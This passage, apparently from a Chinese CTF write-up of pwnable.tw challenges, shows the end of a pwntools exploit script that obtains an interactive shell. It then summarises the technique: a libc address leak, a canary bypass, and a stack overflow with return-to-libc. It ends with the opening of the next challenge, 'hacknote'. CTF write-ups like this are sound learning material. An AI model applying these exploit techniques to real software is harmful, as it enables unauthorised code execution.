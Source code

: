 ```python
for i in range(9):
        io.sendline(str(system_addr))
        io.recv()

io.sendline(str(binsh_addr))
io.recv()

io.interactive()
```

总结：

scanf和printf泄露栈上libc地址，计算偏移得到libc基址

非法字符绕过canary完成栈溢出

然后构造栈空间return2libc

多重保护下的栈溢出

# 0x06 hacknote

开启NX、Canary保护

![image-20220415125400875](pwnabletw.assets/image-20220415125400875.png)

主要功能：增删查

![image-20220415145546371](pwnabletw.assets/image-20220415145546371.png)
